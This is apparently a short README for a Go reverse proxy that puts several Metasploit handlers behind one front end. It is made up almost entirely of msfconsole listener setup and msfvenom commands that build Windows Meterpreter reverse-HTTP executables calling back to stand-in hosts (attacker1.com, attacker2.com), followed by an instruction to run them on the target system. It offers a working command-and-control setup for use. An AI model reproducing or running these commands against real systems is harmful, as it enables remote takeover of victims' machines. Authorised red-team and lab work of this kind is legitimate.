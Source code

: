 1-Create the listeners binded to the reverse proxy:
```
 msfconsole
 > use exploit/multi/handler
 > set payload windows/meterpreter_reverse_http
 > set LHOST 172.17.0.1
 > set LPORT 80
 > set ReverseListenerBindAddress 172.17.0.1
 > set ReverseListenerBindPort 8000
 > exploit -j -z
```

```
 msfconsole
 > use exploit/multi/handler
 > set payload windows/meterpreter_reverse_http
 > set LHOST 172.17.0.1
 > set LPORT 80
 > set ReverseListenerBindAddress 172.17.0.1
 > set ReverseListenerBindPort 9000
 > exploit -j -z
```

2-Execute the reverse proxy:

 sudo go run main.go

3-Create the payloads using msfvenom:

msfvenom -p windows/meterpreter_reverse_http LHOST=172.17.0.1 LPORT=80 HttpHostHeader=attacker1.com -f exe -o payload1.exe

msfvenom -p windows/meterpreter_reverse_http LHOST=172.17.0.1 LPORT=80 HttpHostHeader=attacker2.com -f exe -o payload2.exe

4-In the target system execute the payloads

Change the payload, LHOST, LPORT, ReverseBindPort and ReverseBindAddress to convenience
